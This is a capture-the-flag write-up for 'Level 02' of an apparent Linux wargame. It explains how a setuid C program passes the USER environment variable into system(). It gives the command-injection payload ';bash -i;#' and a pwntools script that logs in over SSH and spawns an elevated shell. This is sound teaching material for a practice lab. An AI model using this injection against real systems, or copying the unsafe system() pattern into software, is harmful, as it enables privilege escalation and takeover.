

# Level 02

## Discription

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? \
\
> To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.


## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

## Solution

So the program is simple, it is reading USER environment variable and adding that to `/bin/echo USER is cool` string and finally assigning that string to buffer variable.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

Then prints `about to call system [buffer]` string on screen.

```C
printf("about to call system(\"%s\")\n", buffer);
```

Finally executing the value of buffer variable on shell.

```C
system(buffer);
```

This time too, echo is being called but with [absolute path](https://www.linux.com/training-tutorials/absolute-path-vs-relative-path-linuxunix/), so previous challenge [PATH](https://opensource.com/article/17/6/set-path-linux) injection will not work here.

We have only one way to temper with program i.e USER environment variable, we can assign whatever we want to USER  environment variable and it will be passed to the program.

But we have to escape from /bin/echo so that our value in USER variable does not get echoed out instead get executed on shell.

Here we can take advantage of semicolon(;) as semicolon can be used to execute multiple commands in same line on bash so we can do something like - 

```bash
/bin/echo; /bin/bash
```

This will result in executing both commands on shell. Our final payload will look like -

```bash
;bash -i;#
```

**Note**

> we added hash(#) sign because `asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));` will add `is cool` at last of our payload which will make our payload  look like `;bash -i;is cool` which is something we do not want so by using # we are commenting that out.



## Python

```python
#!/usr/bin/python3

from pwn import *
from sys import argv,exit

if len(argv) < 2:
	sys.exit("Target IP Missing") 

level02 = ssh(host=argv[1],user='level02',password='level02')

pro = level02.process('bash',env={'USER':';bash -i;#','PATH':'/bin:/usr/local/bin:/usr/local/sbin:/sbin:/usr/sbin:/usr/bin'})
pro.sendline('/home/flag02/flag02')
pro.sendline('getflag')
pro.interactive()
```
